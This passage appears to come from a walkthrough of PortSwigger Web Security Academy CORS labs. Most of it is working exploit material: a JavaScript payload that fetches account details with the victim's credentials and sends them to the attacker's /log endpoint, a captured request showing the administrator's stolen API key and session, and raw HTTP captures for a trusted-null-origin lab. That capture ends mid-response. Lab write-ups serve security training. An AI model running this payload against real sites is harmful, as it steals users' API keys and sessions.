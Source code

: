 `Origin: https://example.com`

**In response:**

`Access-Control-Allow-Origin: https://example.com`

**Exploit Server ->**

```
Body:

   <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://acd41f011fd21bd3c0b6040200f00050.web-security-academy.net/accountDetails',true);
      req.withCredentials = true;
      req.send();
   
      function reqListener() {
          location='/log?key='+this.responseText;
      };
   </script>
```

`GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22TOW9opFknYFAvYcFwQu1Vvv3zs4U4w6h%22,%20%20%22sessions%22:%20[%20%20%20%20%22csKpvidUNfKVqZrlWGUtVQgCdfJzmN5F%22%20%20]} HTTP/1.1`

### Lab: CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

```
GET /accountDetails HTTP/1.1
Host: ac321f741f7ea952c1af00c500370089.web-security-academy.net
Cookie: session=1RNZX3Q3treQrrpFpIouYozImGd0SMmN
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac321f741f7ea952c1af00c500370089.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

Response:

HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "0hrZ14QSvwIA0QzEGoTlTvLPhNFJfj8E",
  "sessions": [
```